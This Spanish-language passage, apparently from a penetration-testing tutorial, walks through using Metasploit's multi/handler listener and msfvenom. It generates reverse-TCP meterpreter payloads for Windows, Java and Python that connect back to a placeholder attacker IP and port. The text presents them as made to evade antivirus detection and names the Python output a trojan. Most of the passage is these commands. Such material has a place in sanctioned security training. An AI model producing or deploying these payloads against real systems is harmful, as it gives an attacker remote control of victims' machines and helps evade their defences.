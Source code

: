 
- <b>Paso 1</b>: Ya dentro de Metasploit Framework, se utilizará el exploit multi handler, payload que se utiliza para conectar con el objetivo. Dependiendo del tipo de payload, el handler queda a la espera (está en modo escucha) de una conexión por parte del payload cargado en el objetivo (reverse payload), llegando a iniciar una conexión contra el host y puertos objetivo en ciertos casos (bind payload). En la consola, se codifica:
<b>

```
use exploit/multi/handler
```
</b>

- <b>Paso 2</b>: Ahora, se procede a crear el payload como tal. La cuestión principal es para qué sistema operativo deberá estar preparado, tanto el tipo como la versión, arquitectura... ¡¡Todo con su máximo detalle!! Para ello, ejecutaremos <b>MSFVenom</b>, framework para Linux que combina la biblioteca de payloads y la de codificadores (encoders), de forma que permite generar un payload ofuscado (oculto a los sistemas antivirus y de protección) directamente. Para ello podemos consultar qué comandos tenemos disponibles:
<b>

```
msfvenom -h
```
</b>

Si queremos disponer de un listado con los posibles opciones y/o payloads, podemos utilizar el siguientes códigos:
<b>

```
# Listado de payloads
msfvenom -l payloads
```

```
# Listado de opciones para payloads
msfvenom -p [payload_elegido] --list-options
```
</b>

- <b>Paso 3</b>: Se crea el payload con los parámetros necesarios para que sea efectivo y no detectado en el host objetivo:
<b>

```
msfvenom -p [payload_elegido] LHOST=[ip_atacante] LPORT=[puerto_escucha_atacante] -o [fichero_resultante]
```
</b>

Como es evidente, se pueden dar ocasiones en las que se deba crear un payload "a medida" para el sistema operativo que está en el host objetivo, siempre según los análisis que hemos realizado mediante NMAP.
Así, podemos crear diversos tipos de payloads:
<b>

```
# Para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -f exe > payload.exe
```
```
# En Java
msfvenom -p java/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -f jar > payload.jar
```
```
# En python
msfvenom -p python/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.py
```